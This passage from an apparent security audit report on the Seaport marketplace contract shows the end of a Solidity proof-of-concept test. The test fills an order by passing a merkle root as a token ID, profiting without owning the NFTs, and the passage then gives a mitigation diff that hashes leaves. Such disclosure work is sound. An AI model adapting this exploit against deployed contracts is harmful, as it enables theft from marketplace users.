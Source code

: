```solidity
        AdvancedOrder memory advancedOrder = AdvancedOrder(
            orderParameters,
            1, /* numerator */
            1, /* denominator */
            signature,
            ""
        );

        // resolve the merkle root token ID itself
        CriteriaResolver[] memory cr = new CriteriaResolver[](1);
        bytes32[] memory proof = new bytes32[](0);
        cr[0] = CriteriaResolver(
              0, // uint256 orderIndex;
              Side.CONSIDERATION, // Side side;
              0, // uint256 index; (item)
              uint256(merkleRoot), // uint256 identifier;
              proof // bytes32[] criteriaProof;
        );

        uint256 profit = token1.balanceOf(address(this));
        context.consideration.fulfillAdvancedOrder{
            value: context.paymentAmount
        }(advancedOrder, cr, bytes32(0));
        profit = token1.balanceOf(address(this)) - profit;

        // @audit could fulfill order without owning NFT 1 or 2
        assertEq(profit, context.paymentAmount);
    }
}
```

### Recommended Mitigation Steps

Usually, this is fixed by using a type-byte that indicates if one is computing the hash for a *leaf* or not.<br>
An elegant fix here is to simply [use hashes of the tokenIds](https://github.com/code-423n4/2022-05-opensea-seaport/blob/4140473b1f85d0df602548ad260b1739ddd734a5/contracts/lib/CriteriaResolution.sol#L250) as the leaves - instead of the tokenIds themselves. (Note that this is the natural way to compute merkle trees if the data size is not already the hash size.)<br>
Then compute the leaf hash in the contract from the provided tokenId:

```diff
function _verifyProof(
    uint256 leaf,
    uint256 root,
    bytes32[] memory proof
) internal pure {
    bool isValid;

-    assembly {
-        let computedHash := leaf
+  bytes32 computedHash = keccak256(abi.encodePacked(leaf))
  ...
```
